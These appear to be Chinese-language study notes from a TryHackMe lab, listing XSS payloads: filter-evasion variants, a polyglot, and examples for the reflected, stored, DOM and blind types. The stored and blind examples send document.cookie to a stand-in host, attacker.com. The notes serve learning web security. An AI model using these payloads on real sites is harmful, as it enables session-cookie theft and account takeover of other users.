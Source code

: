 # XSS Payloads 筆記

---
## 常見 XSS Payloads
| Level | 反射點位置/環境               | Payload 範例（可執行 alert('THM')）                     | 攻擊說明與技巧                                                                                   |
|-------|------------------------------|----------------------------------------------------------|-------------------------------------------------------------------------------------------------|
| 1     | 一般文字輸出反射               | `<script>alert('THM');</script>`                          | 直接輸入 script 標籤觸發 alert，簡單的反射型 XSS                                               |
| 2     | input 標籤的 value 屬性中反射 | `"><script>alert('THM');</script>`                        | 先跳脫 input 的 value，用 `">` 結束屬性並關閉標籤，再注入 script                                |
| 3     | textarea 標籤內反射            | `</textarea><script>alert('THM');</script>`               | 利用 `</textarea>` 結束 textarea，注入 script                                                 |
| 4     | JavaScript 程式碼區域反射      | `';alert('THM');//`                                        | 利用結束字串及注解符號跳脫並插入 alert，破壞原本 JS 語法，執行 payload                         |
| 5     | 內容過濾 `<script>` 標籤        | `<sscriptcript>alert('THM');</sscriptcript>`             | 用變形標籤規避過濾，最後被轉回正確 `<script>` 標籤觸發 XSS                                    |
| 6     | HTML tag 屬性過濾 `<` 和 `>`    | `/images/cat.jpg" onload="alert('THM');`                 | 利用 IMG 標籤的 onload 屬性執行 JS，繞過過濾 `<` 和 `>` 字元                                  |

---

## XSS Polyglot (多態 Payload)
```javescript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

- 此 Payload 可跨越屬性、標籤與過濾器，是一種多態 XSS 字串，適用於多數環境。
---

## Reflected XSS（反射型 XSS）

### 簡介
反射型 XSS 是當惡意腳本通過 HTTP 請求（如 URL 參數）被伺服器直接回傳並執行時發生的。通常利用釣魚連結誘使使用者點擊，腳本即時執行。

### 常用 Payload 範例
```html
<script>alert('XSS')</script>  
http://example.com/search?q=<script>alert('XSS')</script>
```

### 注意
- 腳本只在當下請求中執行，無永久存儲於伺服器。
- 常見於 GET 或 POST 參數注入。

---

## Stored XSS（儲存型 XSS）

### 簡介
儲存型 XSS 是惡意腳本被存入伺服器（如留言板、評論區、資料庫），在其他使用者瀏覽時執行。威力較大，因為惡意腳本長期存在。

### 常用 Payload 範例
```html
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>  
<img src=x onerror=alert('XSS')>
```

### 注意
- 腳本會長期儲存在伺服器中。
- 目標是其他訪問該內容的使用者。

---

## DOM Based XSS（DOM 型 XSS）

### 簡介
DOM Based XSS 指惡意腳本完全在前端（瀏覽器的 DOM 操作）執行，非伺服器直接回傳。通常因前端 JS 沒過濾 `document.location`、`document.referrer` 等輸入。

### 常用 Payload 範例
```html
javascript:alert(document.cookie)  
http://example.com/page#<script>alert('XSS')</script>
```

### 注意
- 攻擊完全在客戶端發生，不經由伺服器回應。
- 利用前端 JS 操作 DOM 時沒做好安全處理。

---

## Blind XSS（盲 XSS）

### 簡介
盲 XSS 是指攻擊者無法立即看到攻擊結果，惡意腳本會在管理員後台或其他不直接面向用戶的系統中執行。常見於管理介面或日誌系統。

### 常用 Payload 範例
```html
<script>new Image().src="http://attacker.com/steal?c="+document.cookie</script>
```

### 注意
- 攻擊者無法直接看到執行結果，需要監控或等待被動觸發。
- 常用於持久型 XSS，影響管理介面或系統日誌。

---



